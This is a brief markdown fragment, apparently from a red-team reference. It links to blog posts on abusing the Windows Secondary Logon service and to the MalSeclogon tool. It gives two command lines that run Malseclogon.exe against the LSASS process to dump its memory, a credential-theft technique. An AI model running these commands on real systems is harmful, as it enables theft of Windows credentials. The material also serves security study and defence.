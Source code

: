 - [https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html)
- [https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-3.html](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-3.html)
- [https://github.com/antonioCoco/MalSeclogon](https://github.com/antonioCoco/MalSeclogon)

```
Cmd > Malseclogon.exe -p <LSASS_PID> -d 1
Cmd > Malseclogon.exe -p <LSASS_PID> -d 2
```
